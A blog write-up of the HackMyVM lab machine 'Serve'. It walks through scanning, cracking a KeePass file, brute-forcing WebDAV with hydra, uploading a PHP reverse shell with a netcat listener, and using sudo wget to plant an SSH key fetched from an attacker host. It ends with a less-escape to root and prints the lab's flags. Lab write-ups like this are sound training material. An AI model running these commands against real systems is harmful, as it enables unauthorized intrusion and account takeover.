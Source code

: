 ```yaml
---
layout: post
author: canarinho
title:  "Serve"
date:   2021-12-31 12:32:26 AM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Serve)

## Nmap Results

{% highlight bash %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-15 15:20 -03
Nmap scan report for serve (192.168.15.91)
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9a:0c:75:5a:bb:bb:06:a2:9a:7d:be:91:ca:45:45:e4 (RSA)
|   256 07:7d:e7:0f:0b:5e:5a:90:e9:33:72:68:49:3b:f5:8c (ECDSA)
|_  256 6c:15:32:a7:42:e7:9f:da:63:66:7d:3a:be:fb:bf:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:26:02:2F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

## FFUF Results for [http://192.168.15.90/](http://192.168.15.90/)

{% highlight bash %}
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10]
notes.txt               [Status: 200, Size: 173, Words: 24, Lines: 12]
secrets                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
{% endhighlight %}

### -> notes.txt

Hi teo,
the database with your credentials to access the resource are in the secret directory
(Don't forget to change X to your employee number)

regards
IT department


## FFUF Results for [http://192.168.15.90/secrets](http://192.168.15.90/secrets)


db.kdbx                 [Status: 200, Size: 2078, Words: 12, Lines: 15]
index.html              [Status: 200, Size: 7, Words: 1, Lines: 8]


## Cracking the password of "db.kdbx"

{% highlight bash %}
keepass2john db.kdbx > hashKeepass.txt
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt  hashKeepass.txt
{% endhighlight %}


dreams           (db)	<--- password


## Acessing db.kdbx


admin:w3bd4vXXX


Now we need to find the right employee number to fill the XXX.

{% highlight bash %}
crunch 9 9 -t w3bd4v%%% -o pass.dic
hydra -l admin -P pass.dic 192.168.15.91 http-get /webdav -f -I
{% endhighlight %}

Result


[80][http-get] host: 192.168.15.91   login: admin   password: w3bd4v513


## Submitting a reverse shell

{% highlight bash %}
curl -T reverse.php [http://192.168.15.91/webdav/](http://192.168.15.91/webdav/) --digest -u admin:w3bd4v513
nc -nvlp 4444
curl [http://192.168.15.91/webdav/reverse.php](http://192.168.15.91/webdav/reverse.php) --digest -u admin:w3bd4v513
{% endhighlight  %}

Checking the "sudo -l", it's possible to execute wget as teo.
So, upload a rsa key to teo

{% highlight bash %}
sudo -u teo wget [http://192.168.15.85:8000/id_rsa.pub](http://192.168.15.85:8000/id_rsa.pub) -O /home/teo/.ssh/authorized_keys
{% endhighlight  %}

Then, just login via ssh using teo user.


user.txt	--> 	ZHgKGiUPm7T7yyLDD9HnqXF3eIkLs6

## PrivEsc

{% highlight bash %}
sudo -l
{% endhighlight  %}


User teo may run the following commands on Serve:
(root) NOPASSWD: /usr/local/bin/bro


Executing "sudo /usr/local/bin/bro curl", note that the binary utilize "less" utility, so just run "!bash".
And there it is, you got root shell


root.txt	-->	vWiU6Ums1pmZAYX0QyXvkclyPZ4lyi

